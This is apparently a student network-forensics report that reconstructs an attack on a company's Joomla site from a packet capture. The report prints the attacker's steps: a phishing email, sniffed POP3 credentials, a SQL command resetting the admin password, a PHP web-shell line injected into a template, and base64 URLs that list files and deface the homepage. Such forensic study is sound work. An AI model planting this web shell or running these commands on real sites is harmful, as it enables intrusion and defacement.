

# Network Forensic Analysis

## Assignment

```
The Potenzio company requests that you analyze the attached PCAP file and 
create a written report (suggested length: 2 pages) detailing whether any 
malicious activities occurred and providing a timeline of the related events.

Please organize the report using the 5W1H method (Who, What, Where, When,
Why, How) and specify the timestamp and hashes of related artifacts for 
each event.

Note the following hints:
	
	The IP address 203.0.113.2 is used by Potenzio as a
	masquerade address.
    
	The IP address 203.0.113.113 is the provider’s DNS
	address.

Both of the above addresses can be considered trusted.
Please ignore Layer 2 information.
```

## Who?

The given pcap file displayed normal network activity of different actors but among them there is an attacker, **libre0ffice.com**, acting under the IP address **58.16.123.111** and attacking **potenzio.com**.

## What happened?

#### 10:27:33
The attacker sent an email to a Potenzio employee disguising himself for a society called **harmonic.com**  with some *"exclusive offers"* just for him as we can read in the message body:

```
Content-Type: text/html; charset=UTF-8
Content-Transfer-Encoding: 7bit

<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=UTF-8">
  </head>
  <body>
    <p>Dear Claudio,</p>
    <p>Please find attached <b>exclusive offers</b> for you.</p>
    <p>Cheers</p>
    <p>Jan Bauer<br>
    </p>
  </body>
</html>
```

Opening the pcap file with Network Miner we can see some informations about the message itself that was sent.


Taking a closer look it's possible to see that the mail was sent from a pretty suspicious address ( **smtp.harmonic.com (mx.lockermaster.lol \[58.16.123.111]**) and contained an attachment called [offers.odt](./assets/harmonic_email_attachment).
Notice that the ip address found in the server is the same as the attacker's one.

Although the attached file seemed to be clean the messages where exchanged using POP3 communication protocol and analysing the packets with a tool like Wireshark we can see Claudio's credentials.



We can see that the credentials used where:

```
User: claudio.volume
Password: claudione
```

#### 10:28:23 

Using these credentials the attacker invoked a shell on the server, installed mysql-client and accessed the joomla database changing the password for the admin account to one of his choice:

```
claudio.volume@client:/$ mysql -u joomla --password=secret4joomla -h 10.0.100.100 joomladb -e "Update pnv1x_users SET password = 'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199' WHERE name='admin';"
```

#### 10:28:52

Using the newly forged admin credentials the attacker logged into the System Dashboard and  accessed the template page  for the *"Joomla Cassiopea Page"*.

After that he forged a new template where the value of a parameter called *random*, that could be pretty much anything, can be sent in a GET request to the index.php page.
If the value of the random parameter is some valid command once decoded from base64 is then executed on the server using the *system* command.

```
.
.
.
    <?php if (isset($_GET['rand'])) system(base64_decode($_GET['rand'])); ?>
    <jdoc:include type="modules" name="debug" style="none" />
</body>
</html>
&task=template.apply&6ac867e6369185055f5b1ad928d7cbe6=1&jform[extension_id]=223&jform[filename]=/var/www/html/templates/cassiopeia/index.php
```

*relevant fragment of the attacker's template*

Doing so the attacker has access to a reverse shell on the potenzio's server.
The attacker then tested the newly created template sending a request where the *random* parameter's value was decoded into the  **ls -la** command, exposing the files present on the server

Attacker's forged url :

```
http://www.potenzio.com/?rand=bHMgLWxhCg==
```

Decoded parameter:

```
> base64 -d parameter.txt
ls -la
```

Web page output:

```
<html>
.
. 
.
    drwxr-xr-x  1 www-data www-data  4096 May  9 15:56 .\n
    drwxr-xr-x  1 root     root      4096 May  4 12:06 ..\n
    -rw-r--r--  1 www-data www-data 18092 Jan 30  2023 LICENSE.txt\n
    -rw-r--r--  1 www-data www-data  4942 Jan 30  2023 README.txt\n
    drwxr-xr-x  1 www-data www-data  4096 Jan 30  2023 administrator\n
    drwxr-xr-x  5 www-data www-data  4096 Jan 30  2023 api\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 cache\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 cli\n
    drwxr-xr-x 18 www-data www-data  4096 Jan 30  2023 components\n
    -rw-r--r--  1 root     root      2003 May  9 15:46 configuration.php\n
    -rw-r--r--  1 www-data www-data  6858 Jan 30  2023 htaccess.txt\n
    drwxr-xr-x  1 www-data www-data  4096 May  9 15:56 images\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 includes\n
    -rw-r--r--  1 www-data www-data  1068 Jan 30  2023 index.php\n
    drwxr-xr-x  4 www-data www-data  4096 Jan 30  2023 language\n
    drwxr-xr-x  6 www-data www-data  4096 Jan 30  2023 layouts\n
    drwxr-xr-x  6 www-data www-data  4096 Jan 30  2023 libraries\n
    drwxr-xr-x 71 www-data www-data  4096 Jan 30  2023 media\n
    drwxr-xr-x 26 www-data www-data  4096 Jan 30  2023 modules\n
    drwxr-xr-x 25 www-data www-data  4096 Jan 30  2023 plugins\n
    -rw-r--r--  1 www-data www-data   764 Jan 30  2023 robots.txt.dist\n
    drwxr-xr-x  1 www-data www-data  4096 Jan 30  2023 templates\n
    drwxr-xr-x  2 www-data www-data  4096 Jan 30  2023 tmp\n
    -rw-r--r--  1 www-data www-data  2974 Jan 30  2023 web.config.txt\n
        \n
    </body>\n
    </html>\n
```

After that the attacker proceed to send with another final payload:

Attacker's forged url:

```
http://www.potenzio.com/?rand=YmFzaCAtYyAiY2F0ID4gaW5kZXguaHRtbCA8PCBFT0YKClw8cHJlPgpHcmVldGluZ3MsCldlIGFyZSBFY29EZWZlbmRlcnMuIApXZSBoYXZlIGRpc3J1cHRlZCBhY2Nlc3MgdG8gdGhlIFBvdGVuemlvIHdlYnNpdGUgZm9yIG9uZSBzaW1wbGUgcmVhc29uOiB5b3VyIHBvbGx1dGluZyBwcmVzZW5jZSBvbiBvdXIgcGxhbmV0IGNhbiBubyBsb25nZXIgYmUgaWdub3JlZC4KRm9yIHllYXJzLCBQb3RlbnppbyBoYXMgZGlzcmVnYXJkZWQgdGhlIHdhcm5pbmdzIG9mIHNjaWVudGlzdHMsIHZpb2xhdGVkIGVudmlyb25tZW50YWwgcmVndWxhdGlvbnMsIGFuZCBjb21wcm9taXNlZCB0aGUgaGVhbHRoIG9mIHRob3VzYW5kcyB3aXRoIGl0cyB0b3hpYyBlbWlzc2lvbnMuIApXZSBjYW5ub3Qgc3RhbmQgYnkgc2lsZW50bHkgd2hpbGUgb3VyIHBsYW5ldCBzdWZmZXJzLgpUaGlzIGRlZmFjZW1lbnQgaXMgYSB3YXJuaW5nLiBDaGFuZ2UgeW91ciBwcmFjdGljZXMsIHJlZHVjZSBwb2xsdXRpb24sIGFuZCByZXNwZWN0IHRoZSBFYXJ0aC4gSXQgaXMgbm90IHRvbyBsYXRlIHRvIG1ha2UgYSBkaWZmZXJlbmNlLCBidXQgdGltZSBpcyBydW5uaW5nIG91dC4KCklmIFBvdGVuemlvIGRvZXMgbm90IGJlZ2luIHRvIHRha2UgY29uY3JldGUgbWVhc3VyZXMgdG8gaW1wcm92ZSBpdHMgZW52aXJvbm1lbnRhbCBmb290cHJpbnQsIHdlIHdpbGwgZW5zdXJlIHRoYXQgdGhlIHdvcmxkIGtub3dzIGV2ZXJ5IGRlc3RydWN0aXZlIGFjdGlvbiB0aGV5IHRha2UuIFRoaXMgaXMganVzdCB0aGUgYmVnaW5uaW5nLgoKQWN0IG5vdy4gT3VyIHBsYW5ldCBjYW5ub3Qgd2FpdCBhbnkgbG9uZ2VyLgoKRU9GIgo=
```

Decoded parameter:

```
> base64 -d parameter.txt 

bash -c "cat > index.html << EOF

\<pre>
Greetings,
We are EcoDefenders. 
We have disrupted access to the Potenzio website for one simple reason: your polluting presence on our planet can no longer be ignored.
For years, Potenzio has disregarded the warnings of scientists, violated environmental regulations, and compromised the health of thousands with its toxic emissions. 
We cannot stand by silently while our planet suffers.
This defacement is a warning. Change your practices, reduce pollution, and respect the Earth. It is not too late to make a difference, but time is running out.

If Potenzio does not begin to take concrete measures to improve its environmental footprint, we will ensure that the world knows every destructive action they take. This is just the beginning.

Act now. Our planet cannot wait any longer.

EOF"
```
